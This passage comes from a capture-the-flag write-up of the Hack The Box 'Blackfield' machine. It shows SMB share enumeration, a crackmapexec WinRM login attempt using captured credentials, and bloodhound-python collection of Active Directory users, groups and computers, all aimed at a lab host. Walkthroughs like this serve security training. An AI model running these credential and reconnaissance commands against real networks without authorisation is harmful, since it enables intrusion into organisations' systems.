 ```shell
SMB         10.10.10.192    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.10.192    445    DC01             NETLOGON        READ            Logon server share
SMB         10.10.10.192    445    DC01             profiles$       READ
SMB         10.10.10.192    445    DC01             SYSVOL          READ            Logon server share
```
Using crackmapexec to check if `support` user has WinRM access:

```shell
cfx:  ~/Documents/htb/blackfield
→ crackmapexec winrm 10.10.10.192 -u support -p '#00^BlackKnight'
WINRM       10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
WINRM       10.10.10.192    5985   DC01             [-] BLACKFIELD\support:#00^BlackKnight "Failed to authenticate the user support with ntlm"
```

### Attack Path Discovery- BloodHound

Next, we use `BloodHound`- A Tool For Exploring Active Directory Domain Security which can be installed using `apt-get install bloodhound`

> [**BloodHound**](https://github.com/BloodHoundAD/BloodHound) is an application used to visualize active directory environments. The front-end is built on electron and the back-end is a Neo4j database, the data leveraged is pulled from a series of data collectors also referred to as ingestors which come in PowerShell and C# flavours.

BloodHound ingestor for linux can be installed using `pip3 install bloodhound`, after running the ingestor with `support` user credentials it connects to Active Directory and downloads computer,domains,groups,user file in .JSON format.

```shell
cfx:  ~/Documents/htb/blackfield
→ bloodhound-python -u support -p '#00^BlackKnight' -ns 10.10.10.192 -d BLACKFIELD.local -c all
INFO: Found AD domain: blackfield.local
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 18 computers
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Found 315 users
INFO: Connecting to GC LDAP server: dc01.blackfield.local
INFO: Found 51 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.BLACKFIELD.local
INFO: Done in 00M 39S

cfx:  ~/Documents/htb/blackfield
→ ls *.json
computers.json  domains.json  groups.json  users.json
```
Before loading the `.json` files inside bloodhound we need `neo4j` database running.
